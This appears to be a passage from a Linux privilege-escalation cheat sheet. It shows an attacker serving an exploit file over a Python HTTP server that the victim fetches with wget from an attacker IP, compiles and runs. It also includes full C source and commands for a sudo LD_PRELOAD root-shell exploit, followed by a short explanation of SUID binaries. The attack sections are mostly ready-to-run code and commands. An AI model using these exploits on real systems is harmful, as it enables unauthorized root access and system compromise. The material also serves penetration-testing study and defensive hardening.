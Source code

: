 Download expliot.c
Upload to Victim 

Attacker
```
python -m SimpleHTTPServer 9000 // You can use any port

```

Victim

```
wget http://<attacker_ip>:9000/expliot.c
Compile expliot.c: gcc expliot.c -o expliot
./expliot
id && whoami 
```

# Sudo LD_PRELOAD

sudo -l 

Example Output: env_reset, env_keep+=LD_PRELOAD // Do you have the same output with sudo binary rights?

Expliot

```

cd /tmp
vi priv.c
   
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}

Compile priv.c: gcc -fPIC -shared -o priv.so priv.c -nostartfiles
Command: sudo LD_PRELOAD=/tmp/priv.so awk // awk can be replaced with any sudo binary
```

# SUID / GUID Binaries Overview


SUID: Set User ID is a type of permission that allows users to execute a file with the permissions of a specified user. Those files which have suid permissions run with higher privileges.  Assume we are accessing the target system as a non-root user and we found suid bit enabled binaries, then those file/program/command can run with root privileges. 
